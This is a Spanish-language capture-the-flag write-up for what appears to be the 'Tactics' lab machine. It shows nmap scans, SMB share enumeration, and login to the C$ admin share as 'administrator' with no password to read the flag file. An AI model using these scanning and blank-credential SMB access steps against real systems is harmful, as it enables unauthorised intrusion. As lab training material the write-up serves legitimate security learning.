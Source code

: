 # Tactics

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.189.148

PING 10.129.189.148 (10.129.189.148) 56(84) bytes of data.
64 bytes from 10.129.189.148: icmp_seq=1 ttl=127 time=163 ms

--- 10.129.189.148 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 163.328/163.328/163.328/0.000 ms
```

> Sistema operativo:  **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv 10.129.189.148 -oG openPorts

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 135,139,445 -sCV 10.129.189.148 -oN targeted

PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-03-12T21:44:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

| Puerto | Servicio     | Versión                       |
| ------ | ------------ | ----------------------------- |
| 135    | msrpc        | Microsoft Windows RPC         |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn |
| 445    | microsoft-ds | ?                             |

🗹 Listar los recursos compartidos mediante el servicio SMB con el usuario `administrator` y sin proporcionar contraseña:

```shell
smbclient -L //10.129.189.148 -U administrator
Password for [WORKGROUP\administrator]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

🗹 Acceder al servicio SMB:

```shell
smbclient //10.129.189.148/C$ -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 04:16:03 2021
  ..                                 DR        0  Thu Apr 22 04:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 12:23:32 2021
  flag.txt                            A       32  Fri Apr 23 06:39:00 2021

		3774463 blocks of size 4096. 1156617 blocks available
smb: \Users\Administrator\Desktop\> more flag.txt
```
## Flag

La flag se encuentra en el directorio `C:\Users\Administrator\Desktop`.
